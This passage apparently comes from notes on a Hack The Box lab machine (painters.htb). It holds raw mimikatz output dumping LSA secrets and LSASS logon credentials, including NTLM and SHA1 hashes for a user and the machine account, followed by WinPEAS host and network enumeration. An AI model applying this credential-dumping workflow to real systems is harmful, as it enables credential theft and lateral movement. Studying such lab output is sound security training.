Local name : WORKSTATION-1 ( S-1-5-21-2164019744-4180519111-4189485426 )
Domain name : PAINTERS ( S-1-5-21-1470357062-2280927533-300823338 )
Domain FQDN : painters.htb

Policy subsystem is : 1.18
LSA Key(s) : 1, default {4891f92c-3339-2194-4e4c-a614861cc40d}
  [00] {4891f92c-3339-2194-4e4c-a614861cc40d} f7c58142fa0a0cc9242fc56ed46151b6d60b76decaf2032b5ddaec331da96889

Secret  : $MACHINE.ACC
cur/hex : 61 8c e1 1c a3 62 df 18 97 71 62 44 dd 3d ac 6f ba ee a0 9f d8 20 46 f8 40 82 82 6e 77 4a 99 33 b1 f0 e0 b5 55 8b 95 b8 6c 7d f9 f4 65 51 64 cf 6c 2d c6 aa 0d b3 d3 fb da cd b6 45 d7 b2 dc 9c f4 99 28 93 e0 a9 d0 e7 52 77 f6 b7 95 24 e4 a4 ae 43 f5 ca ce 97 3d 8f 68 af f5 d5 65 ee a5 f8 81 7e c0 a8 ea 2d ff 98 92 c0 6d 18 d2 3e 1d 77 c2 3a 0d 85 c6 40 2c 5e ec 29 d8 0b 48 3d 2e 6f 43 be 25 8a 49 4f f2 93 95 49 89 98 bd 8b c6 64 62 69 9a 31 73 26 33 26 56 4a f0 a7 ad 7c 34 a6 b3 dc 3f a8 0f de 8d 4f 71 99 07 a4 6a f6 40 e7 50 f4 47 ec c0 e1 0e d9 6f fd cb bb 3c 8b 76 bb ee 9b cc 40 a4 27 99 09 b9 d2 33 0c 26 6a 36 c1 dd e8 1f 53 da 39 9f ae 28 68 1a 73 7f d8 3d 53 9c 3a 00 7d 6d ec 17 0b d8 34 8e 39 99 fa 4d b7
    NTLM:9ab46ef513f6f74ddf1ab492b8f542fa
    SHA1:2d43ebc83136ff77dbac7813f0a89aebaf83302a
old/hex : 3b 25 86 c3 94 e0 b3 e6 89 9d e6 8b 5e 4f db a0 1d 3e 79 c0 8d de d9 27 fe ea 05 22 4c 66 ca 0f a6 92 bc ac 27 39 60 3e 6c ad 9c e9 a2 5e 89 e4 bc 7b 10 6f 54 c6 ae 3e 30 e6 ae 05 8d da 04 18 e6 19 f7 cf 22 02 70 28 8a 33 4e e7 49 1c 6e 59 7b 72 4a 04 e9 9b 1d 6c 7f 23 e9 d9 71 8e db 5b 59 84 17 59 c9 80 9a fc 57 86 e8 80 0d a8 7f 5e a0 d8 8a 1e 71 31 86 54 b1 3b 2e 97 31 a8 42 6b be 02 93 9a c8 ce ba ee d1 12 2a 9b 2e 93 bc ac 54 fc bc 5f ee 57 89 b9 2e 0f 24 e1 18 6a cf 77 e5 b0 6f 50 82 c1 59 10 ca 10 85 b0 77 9e ff 22 27 94 2f 55 54 39 0e 25 d8 de 2a e3 5c a9 14 b7 11 13 c8 82 2d 46 9e 36 7f 5d 6a f3 1e 41 7e 4a 20 84 6f ac dd a5 f8 1e 29 05 cf db 70 6b cb 38 55 27 c9 46 f0 c3 5d 2c 1e ea 13 be ad 76 02 4d
    NTLM:2a5970c150ff4a2c6dacfcc510c467c6
    SHA1:82992b03b5defb1e9e959f75ab400348b950a514

Secret  : DefaultPassword

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 95 e1 50 23 69 d9 af 84 22 e0 da cc ed 10 8a 7f 42 cf 26 e5 57 e2 15 18 ba fd 3e a2 9c 99 64 3f 9b 8d 29 32 54 df 40 ef
    full: 95e1502369d9af8422e0dacced108a7f42cf26e557e21518bafd3ea29c99643f9b8d293254df40ef
    m/u : 95e1502369d9af8422e0dacced108a7f42cf26e5 / 57e21518bafd3ea29c99643f9b8d293254df40ef
old/hex : 01 00 00 00 6c 8f 14 a5 64 8c 9a 80 33 cb c1 81 9c 87 6d 97 f7 96 40 0a fc ec e4 d3 8f 3f f4 13 64 0e bb 32 67 bf bc 98 66 88 e5 0c
    full: 6c8f14a5648c9a8033cbc1819c876d97f796400afcece4d38f3ff413640ebb3267bfbc986688e50c
    m/u : 6c8f14a5648c9a8033cbc1819c876d97f796400a / fcece4d38f3ff413640ebb3267bfbc986688e50c

Secret  : NL$KM
cur/hex : 5c 47 d5 7d d7 a5 c5 4a 50 85 ab 7c 93 62 01 94 af c9 c5 0b bc 23 6a 79 62 93 24 d2 c6 cc 11 07 66 e2 bd 9c fb 21 b7 45 14 a7 57 e8 11 63 fb 30 50 77 f8 7e d6 67 7a 69 61 94 58 9e 35 b1 2a a3

mimikatz #
```

And stuff from LSASS:

```
mimikatz # sekurlsa::msv

Authentication Id : 0 ; 992249 (00000000:000f23f9)
Session           : Interactive from 3
User Name         : DWM-3
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 08/09/2023 20:23:58
SID               : S-1-5-90-0-3
        msv :
         [00000003] Primary
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * NTLM     : 9ab46ef513f6f74ddf1ab492b8f542fa
         * SHA1     : 2d43ebc83136ff77dbac7813f0a89aebaf83302a

Authentication Id : 0 ; 989951 (00000000:000f1aff)
Session           : Interactive from 3
User Name         : UMFD-3
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 08/09/2023 20:23:58
SID               : S-1-5-96-0-3
        msv :
         [00000003] Primary
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * NTLM     : 9ab46ef513f6f74ddf1ab492b8f542fa
         * SHA1     : 2d43ebc83136ff77dbac7813f0a89aebaf83302a

Authentication Id : 0 ; 721077 (00000000:000b00b5)
Session           : RemoteInteractive from 2
User Name         : riley
Domain            : WORKSTATION-1
Logon Server      : WORKSTATION-1
Logon Time        : 08/09/2023 20:23:21
SID               : S-1-5-21-2164019744-4180519111-4189485426-1001
        msv :
         [00000003] Primary
         * Username : riley
         * Domain   : WORKSTATION-1
         * NTLM     : e19ccf75ee54e06b06a5907af13cef42
         * SHA1     : 9131834cf4378828626b1beccaa5dea2c46f9b63

Authentication Id : 0 ; 621946 (00000000:00097d7a)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 08/09/2023 20:23:11
SID               : S-1-5-90-0-2
        msv :
         [00000003] Primary
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * NTLM     : 9ab46ef513f6f74ddf1ab492b8f542fa
         * SHA1     : 2d43ebc83136ff77dbac7813f0a89aebaf83302a

Authentication Id : 0 ; 619686 (00000000:000974a6)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 08/09/2023 20:23:11
SID               : S-1-5-96-0-2
        msv :
         [00000003] Primary
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * NTLM     : 9ab46ef513f6f74ddf1ab492b8f542fa
         * SHA1     : 2d43ebc83136ff77dbac7813f0a89aebaf83302a

Authentication Id : 0 ; 234813 (00000000:0003953d)
Session           : Interactive from 1
User Name         : riley
Domain            : PAINTERS
Logon Server      : DC
Logon Time        : 08/09/2023 20:22:22
SID               : S-1-5-21-1470357062-2280927533-300823338-1106
        msv :
         [00000003] Primary
         * Username : riley
         * Domain   : PAINTERS
         * NTLM     : e19ccf75ee54e06b06a5907af13cef42
         * SHA1     : 9131834cf4378828626b1beccaa5dea2c46f9b63
         * DPAPI    : dad879c0fde56bacb24638ee31afa842

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 08/09/2023 20:22:13
SID               : S-1-5-19
        msv :

Authentication Id : 0 ; 67190 (00000000:00010676)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 08/09/2023 20:22:13
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * NTLM     : 9ab46ef513f6f74ddf1ab492b8f542fa
         * SHA1     : 2d43ebc83136ff77dbac7813f0a89aebaf83302a

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WORKSTATION-1$
Domain            : PAINTERS
Logon Server      : (null)
Logon Time        : 08/09/2023 20:22:13
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * NTLM     : 9ab46ef513f6f74ddf1ab492b8f542fa
         * SHA1     : 2d43ebc83136ff77dbac7813f0a89aebaf83302a

Authentication Id : 0 ; 43123 (00000000:0000a873)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 08/09/2023 20:22:13
SID               : S-1-5-96-0-0
        msv :
         [00000003] Primary
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * NTLM     : 9ab46ef513f6f74ddf1ab492b8f542fa
         * SHA1     : 2d43ebc83136ff77dbac7813f0a89aebaf83302a

Authentication Id : 0 ; 43098 (00000000:0000a85a)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 08/09/2023 20:22:13
SID               : S-1-5-96-0-1
        msv :
         [00000003] Primary
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * NTLM     : 9ab46ef513f6f74ddf1ab492b8f542fa
         * SHA1     : 2d43ebc83136ff77dbac7813f0a89aebaf83302a

Authentication Id : 0 ; 41808 (00000000:0000a350)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 08/09/2023 20:22:12
SID               :
        msv :
         [00000003] Primary
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * NTLM     : 9ab46ef513f6f74ddf1ab492b8f542fa
         * SHA1     : 2d43ebc83136ff77dbac7813f0a89aebaf83302a

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WORKSTATION-1$
Domain            : PAINTERS
Logon Server      : (null)
Logon Time        : 08/09/2023 20:22:12
SID               : S-1-5-18
        msv :

mimikatz #
```

And logoncreds:

```
mimikatz # sekurlsa::logonPasswords

Authentication Id : 0 ; 992249 (00000000:000f23f9)
Session           : Interactive from 3
User Name         : DWM-3
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 08/09/2023 20:23:58
SID               : S-1-5-90-0-3
        msv :
         [00000003] Primary
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * NTLM     : 9ab46ef513f6f74ddf1ab492b8f542fa
         * SHA1     : 2d43ebc83136ff77dbac7813f0a89aebaf83302a
        tspkg :
        wdigest :
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * Password : (null)
        kerberos :
         * Username : WORKSTATION-1$
         * Domain   : painters.htb
         * Password : 61 8c e1 1c a3 62 df 18 97 71 62 44 dd 3d ac 6f ba ee a0 9f d8 20 46 f8 40 82 82 6e 77 4a 99 33 b1 f0 e0 b5 55 8b 95 b8 6c 7d f9 f4 65 51 64 cf 6c 2d c6 aa 0d b3 d3 fb da cd b6 45 d7 b2 dc 9c f4 99 28 93 e0 a9 d0 e7 52 77 f6 b7 95 24 e4 a4 ae 43 f5 ca ce 97 3d 8f 68 af f5 d5 65 ee a5 f8 81 7e c0 a8 ea 2d ff 98 92 c0 6d 18 d2 3e 1d 77 c2 3a 0d 85 c6 40 2c 5e ec 29 d8 0b 48 3d 2e 6f 43 be 25 8a 49 4f f2 93 95 49 89 98 bd 8b c6 64 62 69 9a 31 73 26 33 26 56 4a f0 a7 ad 7c 34 a6 b3 dc 3f a8 0f de 8d 4f 71 99 07 a4 6a f6 40 e7 50 f4 47 ec c0 e1 0e d9 6f fd cb bb 3c 8b 76 bb ee 9b cc 40 a4 27 99 09 b9 d2 33 0c 26 6a 36 c1 dd e8 1f 53 da 39 9f ae 28 68 1a 73 7f d8 3d 53 9c 3a 00 7d 6d ec 17 0b d8 34 8e 39 99 fa 4d b7
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 989951 (00000000:000f1aff)
Session           : Interactive from 3
User Name         : UMFD-3
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 08/09/2023 20:23:58
SID               : S-1-5-96-0-3
        msv :
         [00000003] Primary
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * NTLM     : 9ab46ef513f6f74ddf1ab492b8f542fa
         * SHA1     : 2d43ebc83136ff77dbac7813f0a89aebaf83302a
        tspkg :
        wdigest :
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * Password : (null)
        kerberos :
         * Username : WORKSTATION-1$
         * Domain   : painters.htb
         * Password : 61 8c e1 1c a3 62 df 18 97 71 62 44 dd 3d ac 6f ba ee a0 9f d8 20 46 f8 40 82 82 6e 77 4a 99 33 b1 f0 e0 b5 55 8b 95 b8 6c 7d f9 f4 65 51 64 cf 6c 2d c6 aa 0d b3 d3 fb da cd b6 45 d7 b2 dc 9c f4 99 28 93 e0 a9 d0 e7 52 77 f6 b7 95 24 e4 a4 ae 43 f5 ca ce 97 3d 8f 68 af f5 d5 65 ee a5 f8 81 7e c0 a8 ea 2d ff 98 92 c0 6d 18 d2 3e 1d 77 c2 3a 0d 85 c6 40 2c 5e ec 29 d8 0b 48 3d 2e 6f 43 be 25 8a 49 4f f2 93 95 49 89 98 bd 8b c6 64 62 69 9a 31 73 26 33 26 56 4a f0 a7 ad 7c 34 a6 b3 dc 3f a8 0f de 8d 4f 71 99 07 a4 6a f6 40 e7 50 f4 47 ec c0 e1 0e d9 6f fd cb bb 3c 8b 76 bb ee 9b cc 40 a4 27 99 09 b9 d2 33 0c 26 6a 36 c1 dd e8 1f 53 da 39 9f ae 28 68 1a 73 7f d8 3d 53 9c 3a 00 7d 6d ec 17 0b d8 34 8e 39 99 fa 4d b7
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 721077 (00000000:000b00b5)
Session           : RemoteInteractive from 2
User Name         : riley
Domain            : WORKSTATION-1
Logon Server      : WORKSTATION-1
Logon Time        : 08/09/2023 20:23:21
SID               : S-1-5-21-2164019744-4180519111-4189485426-1001
        msv :
         [00000003] Primary
         * Username : riley
         * Domain   : WORKSTATION-1
         * NTLM     : e19ccf75ee54e06b06a5907af13cef42
         * SHA1     : 9131834cf4378828626b1beccaa5dea2c46f9b63
        tspkg :
        wdigest :
         * Username : riley
         * Domain   : WORKSTATION-1
         * Password : (null)
        kerberos :
         * Username : riley
         * Domain   : WORKSTATION-1
         * Password : (null)
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 621946 (00000000:00097d7a)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 08/09/2023 20:23:11
SID               : S-1-5-90-0-2
        msv :
         [00000003] Primary
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * NTLM     : 9ab46ef513f6f74ddf1ab492b8f542fa
         * SHA1     : 2d43ebc83136ff77dbac7813f0a89aebaf83302a
        tspkg :
        wdigest :
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * Password : (null)
        kerberos :
         * Username : WORKSTATION-1$
         * Domain   : painters.htb
         * Password : 61 8c e1 1c a3 62 df 18 97 71 62 44 dd 3d ac 6f ba ee a0 9f d8 20 46 f8 40 82 82 6e 77 4a 99 33 b1 f0 e0 b5 55 8b 95 b8 6c 7d f9 f4 65 51 64 cf 6c 2d c6 aa 0d b3 d3 fb da cd b6 45 d7 b2 dc 9c f4 99 28 93 e0 a9 d0 e7 52 77 f6 b7 95 24 e4 a4 ae 43 f5 ca ce 97 3d 8f 68 af f5 d5 65 ee a5 f8 81 7e c0 a8 ea 2d ff 98 92 c0 6d 18 d2 3e 1d 77 c2 3a 0d 85 c6 40 2c 5e ec 29 d8 0b 48 3d 2e 6f 43 be 25 8a 49 4f f2 93 95 49 89 98 bd 8b c6 64 62 69 9a 31 73 26 33 26 56 4a f0 a7 ad 7c 34 a6 b3 dc 3f a8 0f de 8d 4f 71 99 07 a4 6a f6 40 e7 50 f4 47 ec c0 e1 0e d9 6f fd cb bb 3c 8b 76 bb ee 9b cc 40 a4 27 99 09 b9 d2 33 0c 26 6a 36 c1 dd e8 1f 53 da 39 9f ae 28 68 1a 73 7f d8 3d 53 9c 3a 00 7d 6d ec 17 0b d8 34 8e 39 99 fa 4d b7
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 619686 (00000000:000974a6)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 08/09/2023 20:23:11
SID               : S-1-5-96-0-2
        msv :
         [00000003] Primary
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * NTLM     : 9ab46ef513f6f74ddf1ab492b8f542fa
         * SHA1     : 2d43ebc83136ff77dbac7813f0a89aebaf83302a
        tspkg :
        wdigest :
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * Password : (null)
        kerberos :
         * Username : WORKSTATION-1$
         * Domain   : painters.htb
         * Password : 61 8c e1 1c a3 62 df 18 97 71 62 44 dd 3d ac 6f ba ee a0 9f d8 20 46 f8 40 82 82 6e 77 4a 99 33 b1 f0 e0 b5 55 8b 95 b8 6c 7d f9 f4 65 51 64 cf 6c 2d c6 aa 0d b3 d3 fb da cd b6 45 d7 b2 dc 9c f4 99 28 93 e0 a9 d0 e7 52 77 f6 b7 95 24 e4 a4 ae 43 f5 ca ce 97 3d 8f 68 af f5 d5 65 ee a5 f8 81 7e c0 a8 ea 2d ff 98 92 c0 6d 18 d2 3e 1d 77 c2 3a 0d 85 c6 40 2c 5e ec 29 d8 0b 48 3d 2e 6f 43 be 25 8a 49 4f f2 93 95 49 89 98 bd 8b c6 64 62 69 9a 31 73 26 33 26 56 4a f0 a7 ad 7c 34 a6 b3 dc 3f a8 0f de 8d 4f 71 99 07 a4 6a f6 40 e7 50 f4 47 ec c0 e1 0e d9 6f fd cb bb 3c 8b 76 bb ee 9b cc 40 a4 27 99 09 b9 d2 33 0c 26 6a 36 c1 dd e8 1f 53 da 39 9f ae 28 68 1a 73 7f d8 3d 53 9c 3a 00 7d 6d ec 17 0b d8 34 8e 39 99 fa 4d b7
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 234813 (00000000:0003953d)
Session           : Interactive from 1
User Name         : riley
Domain            : PAINTERS
Logon Server      : DC
Logon Time        : 08/09/2023 20:22:22
SID               : S-1-5-21-1470357062-2280927533-300823338-1106
        msv :
         [00000003] Primary
         * Username : riley
         * Domain   : PAINTERS
         * NTLM     : e19ccf75ee54e06b06a5907af13cef42
         * SHA1     : 9131834cf4378828626b1beccaa5dea2c46f9b63
         * DPAPI    : dad879c0fde56bacb24638ee31afa842
        tspkg :
        wdigest :
         * Username : riley
         * Domain   : PAINTERS
         * Password : (null)
        kerberos :
         * Username : riley
         * Domain   : PAINTERS.HTB
         * Password : (null)
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 08/09/2023 20:22:13
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 67190 (00000000:00010676)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 08/09/2023 20:22:13
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * NTLM     : 9ab46ef513f6f74ddf1ab492b8f542fa
         * SHA1     : 2d43ebc83136ff77dbac7813f0a89aebaf83302a
        tspkg :
        wdigest :
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * Password : (null)
        kerberos :
         * Username : WORKSTATION-1$
         * Domain   : painters.htb
         * Password : 61 8c e1 1c a3 62 df 18 97 71 62 44 dd 3d ac 6f ba ee a0 9f d8 20 46 f8 40 82 82 6e 77 4a 99 33 b1 f0 e0 b5 55 8b 95 b8 6c 7d f9 f4 65 51 64 cf 6c 2d c6 aa 0d b3 d3 fb da cd b6 45 d7 b2 dc 9c f4 99 28 93 e0 a9 d0 e7 52 77 f6 b7 95 24 e4 a4 ae 43 f5 ca ce 97 3d 8f 68 af f5 d5 65 ee a5 f8 81 7e c0 a8 ea 2d ff 98 92 c0 6d 18 d2 3e 1d 77 c2 3a 0d 85 c6 40 2c 5e ec 29 d8 0b 48 3d 2e 6f 43 be 25 8a 49 4f f2 93 95 49 89 98 bd 8b c6 64 62 69 9a 31 73 26 33 26 56 4a f0 a7 ad 7c 34 a6 b3 dc 3f a8 0f de 8d 4f 71 99 07 a4 6a f6 40 e7 50 f4 47 ec c0 e1 0e d9 6f fd cb bb 3c 8b 76 bb ee 9b cc 40 a4 27 99 09 b9 d2 33 0c 26 6a 36 c1 dd e8 1f 53 da 39 9f ae 28 68 1a 73 7f d8 3d 53 9c 3a 00 7d 6d ec 17 0b d8 34 8e 39 99 fa 4d b7
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WORKSTATION-1$
Domain            : PAINTERS
Logon Server      : (null)
Logon Time        : 08/09/2023 20:22:13
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * NTLM     : 9ab46ef513f6f74ddf1ab492b8f542fa
         * SHA1     : 2d43ebc83136ff77dbac7813f0a89aebaf83302a
        tspkg :
        wdigest :
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * Password : (null)
        kerberos :
         * Username : workstation-1$
         * Domain   : PAINTERS.HTB
         * Password : (null)
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 43123 (00000000:0000a873)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 08/09/2023 20:22:13
SID               : S-1-5-96-0-0
        msv :
         [00000003] Primary
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * NTLM     : 9ab46ef513f6f74ddf1ab492b8f542fa
         * SHA1     : 2d43ebc83136ff77dbac7813f0a89aebaf83302a
        tspkg :
        wdigest :
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * Password : (null)
        kerberos :
         * Username : WORKSTATION-1$
         * Domain   : painters.htb
         * Password : 61 8c e1 1c a3 62 df 18 97 71 62 44 dd 3d ac 6f ba ee a0 9f d8 20 46 f8 40 82 82 6e 77 4a 99 33 b1 f0 e0 b5 55 8b 95 b8 6c 7d f9 f4 65 51 64 cf 6c 2d c6 aa 0d b3 d3 fb da cd b6 45 d7 b2 dc 9c f4 99 28 93 e0 a9 d0 e7 52 77 f6 b7 95 24 e4 a4 ae 43 f5 ca ce 97 3d 8f 68 af f5 d5 65 ee a5 f8 81 7e c0 a8 ea 2d ff 98 92 c0 6d 18 d2 3e 1d 77 c2 3a 0d 85 c6 40 2c 5e ec 29 d8 0b 48 3d 2e 6f 43 be 25 8a 49 4f f2 93 95 49 89 98 bd 8b c6 64 62 69 9a 31 73 26 33 26 56 4a f0 a7 ad 7c 34 a6 b3 dc 3f a8 0f de 8d 4f 71 99 07 a4 6a f6 40 e7 50 f4 47 ec c0 e1 0e d9 6f fd cb bb 3c 8b 76 bb ee 9b cc 40 a4 27 99 09 b9 d2 33 0c 26 6a 36 c1 dd e8 1f 53 da 39 9f ae 28 68 1a 73 7f d8 3d 53 9c 3a 00 7d 6d ec 17 0b d8 34 8e 39 99 fa 4d b7
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 43098 (00000000:0000a85a)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 08/09/2023 20:22:13
SID               : S-1-5-96-0-1
        msv :
         [00000003] Primary
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * NTLM     : 9ab46ef513f6f74ddf1ab492b8f542fa
         * SHA1     : 2d43ebc83136ff77dbac7813f0a89aebaf83302a
        tspkg :
        wdigest :
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * Password : (null)
        kerberos :
         * Username : WORKSTATION-1$
         * Domain   : painters.htb
         * Password : 61 8c e1 1c a3 62 df 18 97 71 62 44 dd 3d ac 6f ba ee a0 9f d8 20 46 f8 40 82 82 6e 77 4a 99 33 b1 f0 e0 b5 55 8b 95 b8 6c 7d f9 f4 65 51 64 cf 6c 2d c6 aa 0d b3 d3 fb da cd b6 45 d7 b2 dc 9c f4 99 28 93 e0 a9 d0 e7 52 77 f6 b7 95 24 e4 a4 ae 43 f5 ca ce 97 3d 8f 68 af f5 d5 65 ee a5 f8 81 7e c0 a8 ea 2d ff 98 92 c0 6d 18 d2 3e 1d 77 c2 3a 0d 85 c6 40 2c 5e ec 29 d8 0b 48 3d 2e 6f 43 be 25 8a 49 4f f2 93 95 49 89 98 bd 8b c6 64 62 69 9a 31 73 26 33 26 56 4a f0 a7 ad 7c 34 a6 b3 dc 3f a8 0f de 8d 4f 71 99 07 a4 6a f6 40 e7 50 f4 47 ec c0 e1 0e d9 6f fd cb bb 3c 8b 76 bb ee 9b cc 40 a4 27 99 09 b9 d2 33 0c 26 6a 36 c1 dd e8 1f 53 da 39 9f ae 28 68 1a 73 7f d8 3d 53 9c 3a 00 7d 6d ec 17 0b d8 34 8e 39 99 fa 4d b7
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 41808 (00000000:0000a350)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 08/09/2023 20:22:12
SID               :
        msv :
         [00000003] Primary
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * NTLM     : 9ab46ef513f6f74ddf1ab492b8f542fa
         * SHA1     : 2d43ebc83136ff77dbac7813f0a89aebaf83302a
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WORKSTATION-1$
Domain            : PAINTERS
Logon Server      : (null)
Logon Time        : 08/09/2023 20:22:12
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : WORKSTATION-1$
         * Domain   : PAINTERS
         * Password : (null)
        kerberos :
         * Username : workstation-1$
         * Domain   : PAINTERS.HTB
         * Password : (null)
        ssp :
        credman :
        cloudap :

mimikatz #
```

And lastly Winpeas:

```
[*] BASIC SYSTEM INFO
 [+] WINDOWS OS
   [i] Check for vulnerabilities for the OS version with the applied patches
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits

Host Name:                 WORKSTATION-1
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.19045 N/A Build 19045
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          riley
Registered Organization:
Product ID:                00329-00000-00003-AA154
Original Install Date:     12/04/2022, 02:55:01
System Boot Time:          08/09/2023, 20:22:05
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 07/08/2020
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-gb;English (United Kingdom)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     4,095 MB
Available Physical Memory: 1,879 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 2,539 MB
Virtual Memory: In Use:    2,260 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    painters.htb
Logon Server:              \\WORKSTATION-1
Hotfix(s):                 19 Hotfix(s) Installed.
                           [01]: KB5022502
                           [02]: KB4562830
                           [03]: KB4570334
                           [04]: KB4577586
                           [05]: KB4580325
                           [06]: KB4586864
                           [07]: KB5003791
                           [08]: KB5012170
                           [09]: KB5015684
                           [10]: KB5026361
                           [11]: KB5014032
                           [12]: KB5014671
                           [13]: KB5015895
                           [14]: KB5016705
                           [15]: KB5018506
                           [16]: KB5020372
                           [17]: KB5022924
                           [18]: KB5023794
                           [19]: KB5025315
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 192.168.110.56
                                 [02]: fe80::3d22:37a4:10a2:3413
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.


[*] NETWORK
 [+] CURRENT SHARES

Share name   Resource                        Remark

-------------------------------------------------------------------------------
C$           C:\                             Default share
IPC$                                         Remote IPC
ADMIN$       C:\WINDOWS                      Remote Admin
pollo        c:\programdata
The command completed successfully.


 [+] INTERFACES

Windows IP Configuration

   Host Name . . . . . . . . . . . . : WORKSTATION-1
   Primary Dns Suffix  . . . . . . . : painters.htb
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : painters.htb

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter #2
   Physical Address. . . . . . . . . : 00-50-56-B9-AB-EE
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::3d22:37a4:10a2:3413%14(Preferred)
   IPv4 Address. . . . . . . . . . . : 192.168.110.56(Preferred)
